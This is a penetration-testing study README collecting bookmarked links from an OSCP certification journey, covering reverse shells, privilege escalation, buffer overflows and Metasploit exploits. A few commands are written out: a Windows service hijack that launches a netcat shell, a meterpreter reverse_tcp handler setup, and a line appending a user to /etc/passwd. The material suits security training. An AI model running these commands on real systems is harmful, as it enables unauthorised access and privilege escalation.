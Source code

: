 # OSCP - Journey 
** This repo consists of important links (or URLs) which were bookmarked during my journey of OSCP Certification **

!! Note !!

** Most of the links are considered to be SPOLIERS :P !!!**
                                            

# Reverse and Bind Shell tutorials

https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

http://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet (for getting PHP reverse shell) 

# Different Types of Shells (Like Php, bash, netcat ....)

https://highon.coffee/blog/reverse-shell-cheat-sheet/

# Privilege Escalation 
1. Windows PE

http://www.fuzzysecurity.com/tutorials/16.html

1. sc qc upnphost
2. sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
3. sc config upnphost obj= ".\LocalSystem" password= ""
4. sc qc upnphost
5. net start upnphost
  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
 
 
2. Linux Kernel 2.6.22 < 3.9 --> Dirty Cow
  
https://www.exploit-db.com/exploits/40839/

https://www.youtube.com/watch?v=iyhbLeOzegM

# Buffer Overflow 

Q) What is buffer-overflow

https://www.youtube.com/watch?v=TsQufuT80uc

  # For Practicing
  1. Vanilla EIP >>
http://www.primalsecurity.net/0x0-exploit-tutorial-buffer-overflow-vanilla-eip-overwrite-2/

  2. SL Mail >>
https://www.youtube.com/watch?v=Pi51KlEulj4
 
# MD5 Decrypter 
https://hashkiller.co.uk/md5-decrypter.aspx

# For RPC Service 

> use exploit/windows/dcerpc/ms03_026_dcom

https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/

# Extra Toppings

https://pinboard.in/u:unfo/t:oscp

# LFI _ Practise 

1. Coldfusion 

http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

# Using Multihandler
1. msf>use exploit multi/handler
2. msf>set payload windows/meterpreter/reverse_tcp
3. msf>set lhost <local IP>
4. msf>set lport <local port>
5. msf> set ExitOnSession false
6. msf>exploit -j

# append users in /etc/passwd

echo "line:to:add" >> /etc/passwd

# MSF Payloads

https://netsec.ws/?p=331

http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

# OpenFuck / NT SNT Samba Server / Trans2open

https://kongwenbin.wordpress.com/tag/openfuck/

# Phplite_admin 1.9.3

https://www.youtube.com/watch?v=G1i5oWblx9Q

# ManageEngine Multiple Products Authenticated File Upload

https://www.rapid7.com/db/modules/exploit/multi/http/manageengine_auth_upload

# ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow

https://www.rapid7.com/db/modules/exploit/linux/ftp/proftp_telnet_iac

# Oracle 9i XDB - HTTP PASS Overflow

https://www.exploit-db.com/exploits/16809/


To be Cont.......
  

